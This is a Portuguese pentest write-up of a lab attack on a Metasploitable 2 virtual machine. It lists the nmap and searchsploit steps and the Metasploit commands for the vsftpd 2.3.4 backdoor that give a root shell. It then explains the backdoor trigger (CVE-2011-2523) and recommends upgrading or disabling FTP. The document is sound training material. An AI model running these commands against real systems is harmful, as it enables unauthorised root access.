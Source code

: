 # Write-up: Pentest na Máquina Metasploitable 2

Este é um relatório detalhado do teste de invasão realizado na máquina virtual Metasploitable 2, dentro de um ambiente de laboratório controlado.

**Máquina-Alvo:** Metasploitable 2

**Máquina de Ataque:** Kali Linux

**Objetivo:** Identificar vulnerabilidades, explorá-las para obter acesso inicial e escalar privilégios.

---

## Fase 1: Reconhecimento (Reconnaissance)

O primeiro passo foi identificar as portas e serviços rodando na máquina-alvo. Utilizei a ferramenta `nmap` com os seguintes comandos: **nmap -sV -p- 192.168.56.102**. O scan revelou várias portas abertas. A mais crítica parecia ser a porta 21 (FTP), que está rodando uma versão antiga: vsftpd 2.3.4.

<img width="646" height="517" alt="nmap-scan png" src="https://github.com/user-attachments/assets/41874998-8607-4181-8d77-e6d23cde642f" />

---

## Fase 2: Análise de Vulnerabilidade

Com foco no serviço vsftpd 2.3.4, usei o comando **searchsploit** para verificar por falhas conhecidas. O resultado confirmou que esta versão possui um backdoor crítico quee permite a execução remota de comandos.

<img width="646" height="215" alt="searchexploit png" src="https://github.com/user-attachments/assets/4dc6c711-1428-4723-b2c8-d2b7ac253e56" />

---

## Fase 3: Exploração

Encontradas as vulnerabilidades, iniciei o o processo de invasão do sistemas por meio de diversos comandos:
**msf6 > search vsftpd_234
  msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit**

<img width="635" height="230" alt="invasao png" src="https://github.com/user-attachments/assets/02a14128-052f-483b-9257-6d5b822f56db" />

---

## Fase 4: Pós-Exploração (Acesso Obtido)
**whoami**

**id**

Como prova de acesso, os comandos 'whoami' e 'id' foram executados, confirmando que o shell foi obtido com privilégios de root e controle total sobre o sistema-alvo.

<img width="647" height="93" alt="root png" src="https://github.com/user-attachments/assets/84bc62ab-28bc-4cf7-a61b-46d14f869a99" />

---

## Fase 5: Mitigação e Recomendações

Esta vulnerabilidade é considerada crítica, pois permite que um invasor não autenticado obtenha privilégios de root (controle total) remotamente com esforço mínimo.

  ### 1. Vulnerabilidade Identificada
  O serviço **vsftpd (Very Secure FTP Daemon)** na versão **2.3.4** possui um **backdoor intencional** (CVE-2011-2523). Este backdoor foi inserido no código-fonte por um invasor desconhecido e distribuído por um curto período. Ele é acionado quando um nome de usuário terminando com os caracteres `:)` é enviado, o que abre um shell de comando na porta 6200.
  
  ### 2. Recomendações de Correção (Mitigação)
  Para corrigir esta falha e proteger o servidor, as seguintes ações são recomendadas:
  
  * **Ação Primária (Correção):**
      Atualizar imediatamente o serviço `vsftpd` para a versão estável mais recente (qualquer versão após a 2.3.4). As versões mais novas não contêm este backdoor.
  
  * **Ação Secundária (Melhor Prática / Hardening):**
      Se o serviço de FTP (File Transfer Protocol) não for absolutamente essencial para as operações deste servidor, ele deve ser **desabilitado** ou **removido** completamente. Isso           reduz a *superfície de ataque*" do sistema, eliminando um ponto de entrada desnecessário para futuros ataques.
